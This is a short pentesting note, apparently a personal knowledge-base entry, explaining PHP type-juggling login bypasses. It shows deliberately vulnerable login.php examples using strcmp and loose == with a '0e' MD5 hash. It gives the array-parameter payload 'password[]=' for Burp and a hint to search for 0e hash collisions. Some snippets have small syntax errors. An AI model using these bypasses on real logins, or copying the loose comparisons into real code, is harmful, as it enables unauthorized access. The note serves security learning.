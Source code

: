 
To avoid some comparative in php. 

---
# In what case we can use this attack?

- We can use in admin panels to avoid the comparative of the password

- When you detect that there are a compare of string, like user with user, password with password

- The vulnerable part is when using the function strcmp to compare.

- Other vulnerabilty is when there are two equals

---

# Example login.php to test

````php
<html>
        <font color="red"><center><h1>Secure Login Page</h1></center></font>
        <hr><br>
        <body style="background-color:powderblue;">
                <center>
                        <form method="POST" name="<?php basename($_SERVER['PHP_SELF']); ?>">
                                <label> Usuario: </label>
                                        <input type="text" name="usuario" id="usuario" size="30">
                                <br><br>

                                <label> Password: </label>
                                        <input type="password" name="password" id="password" size="30">

                                <br><br><br>

                                <input type="submit" value="Login">

                        </form>
                </center>

                <?php
                        $USER = "admin";
                        $PASSWORD = 'adm1nP@$$1313_$$sergiky';

                        if(isset($_POST['usuario']) && isset($_POST['password'])) {
                                if($_POST['usuario'] == $USER){
                                        if(strcmp($_POST['password'], $PASSWORD) == 0 ){
                                                echo "[+] Acceso garantizado, bienvenido usuario admin [+]";
                                        } else {
                                                echo "[!] La contraseña proporcionada no es válida [!]";
                                        }
                                } else {
                                        echo "[!] El usuario introducido no es correcto [!]";
                                }

                        }
                ?>

        </body>
</html>
````


---

# How to exploit it

If you open the burpsuite, change the type and indicate that is an array

> usuario=admin&password[]=

----

# Two equals

When there are two equals in a compare

````php
$value1 = 0e087386482136013740957780965295;
$value2 = 0;

if($value1 == $value2) { echo "the values are the same"; } else { echo "The avlue aren't the same" }
````

In this case the output will be "the values are the same", this is because the double equals don't see the type, convert it in types common.

While triple equals check if the **type** is equal

Imagine that you have this code of php:

````php
<html>
	<font color="red"><center><h1>Secure Login Page</h1></center></font>
	<hr><br>
	<body style="background-color:powderblue;">
		<center>
			<form method="POST" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
				<label> Usuario: </label>
					<input type="text" name="usuario" id="usuario" size="30">
				<br><br>

				<label> Password: </label>
					<input type="password" name="password" id="password" size="30">

				<br><br><br>

				<input type="submit" value="Login">

			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = 0e087386482136013740957780965295;

			if(!empty($_POST['usuario']) && !empty($_POST['password'])) {
				$password_input = $_POST['password'];
				$password_input = md5($password_input);
				if($_POST['usuario'] == $USER){
					if($password_input == $PASSWORD){
						echo "[+] Acceso garantizado, bienvenido usuario admin [+]";
					} else {
						echo "[!] La contraseña proporcionada no es válida [!]";
					}
				} else {
					echo "[!] El usuario introducido no es correcto [!]";
				}

			}
		?>

	</body>
</html>
````

In google you can search by **0e hash collision** to see what other string in md5 begin with 0e.

This other string allow you to authenticate.

---

# Tags

#vulnerabilty #typejuggling 

---


